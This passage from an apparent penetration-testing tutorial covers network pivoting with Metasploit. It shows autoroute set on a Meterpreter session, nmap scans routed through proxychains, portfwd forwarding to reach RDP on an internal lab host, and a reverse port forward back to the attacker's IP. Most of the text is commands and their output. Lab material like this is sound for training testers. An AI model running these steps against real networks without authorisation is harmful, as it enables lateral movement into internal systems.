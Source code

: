 We can test it is working with the `jobs` command. Assure that proxychains is properly configure.

> Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.
{: .prompt-tip}

Now use **AutoRoute**:
```console
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session:
```console
meterpreter > run autoroute -s 172.16.5.0/23 

...
[*] Use the -p option to list all active routes
```

```console
meterpreter > run autoroute -p 

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

We will now be able to use proxychains to route our Nmap traffic via our Meterpreter session:
```console
zero@pio$ proxychains nmap <TARGET> -p3389 -sT -v -Pn
```

We can also use the `portfwd`:
```console
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]
```

```console
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session:
```console
zero@pio$ xfreerdp /v:localhost:3300 /u:<USER> /p:<PASSWORD>
```

Similar to local port forwards, Metasploit can also perform **reverse port forwarding** with the below command:
```console
meterpreter > portfwd add -R -l 8081 -p 1234 -L <OUR IP>
```
